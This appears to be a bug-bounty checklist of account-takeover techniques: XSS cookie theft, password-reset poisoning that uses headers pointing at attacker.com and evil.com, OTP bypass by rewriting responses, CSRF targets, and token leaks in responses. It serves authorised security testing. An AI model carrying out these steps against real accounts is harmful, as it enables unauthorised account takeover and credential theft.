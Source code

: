 
## Chaining Session Hijacking with XSS
```
1.I have added a session hijacking method in broken authentication and session management. 
2.If you find that on target.
3.Try anyway to steal cookies on that target.
4.Here I am saying look for xss .
5.If you find xss you can steal the cookies of victim and using session hijacking you can takeover the account of victim.
```
##  No Rate Limit On Login With Weak Password Policy
```
So if you find that target have weak password policy, try to go for no rate limit attacks in poc shows by creating very weak password of your account.

(May or may not be accepted)
```
## Password Reset Poisioning Leads To Token Theft
```
1.Go to password reset funtion.
2.Enter email and intercept the request.
3.Change host header to some other host i.e,
    Host:target.com
    Host:attacker.com
  also try to add some headers without changing host like
    X-Forwarded-Host: evil.com
    Referrer: https://evil.com
4.Forward this if you find that in next request attacker.com means you managed to successfully steal the token. :)
```
## Using  Auth Bypass
```
Check out Auth Bypass method, there is a method for OTP bypass via response manipulation, this can leads to account takeovers.
1.Enter the wrong auth code / Password
2.Capture a auth request in burpsuite and send it to repeater 
3.Check for the resoponse
4.Change the respone by manipulating the following parameters
  {“code”:”invalid_credentials”} -> {“code”:”valid_credentials”}
  {“verify”:”false”}             -> {“verify”:”true”}
  
  
```
## Try For CSRF On
```
1.Change Password function.
2.Email change
3.Change Security Question
```
## Token Leaks In Response

* So there are multiple ways to do it but all are same.

* So I will sharing my method that I have learnt here .

* Endpoints:(Register,Forget Password)

* Steps(For Registration):
```
  1. For registeration intercept the signup request that contains the data you have entered.
  2. Click on action -> do -> intercept the response to this request.
  3. Click forward.
  4. Check response if that contains any link, any token or OTP.
 ```
 ------------------------
 * Steps (For password reset):
 ``` 
  1. Intercept the forget password option.
  2. Click on action -> do -> intercept the response to this request.
  3. Click forward.
  4. Check response if that contains any link,any token or OTP.
 ```
![[20240623_135626.jpg]]
## Reference:
* Various Source From Google,Twitter,Medium
* https://avanishpathak.medium.com/an-account-takeover-vulnerability-due-to-response-manipulation-e23fe629bd1


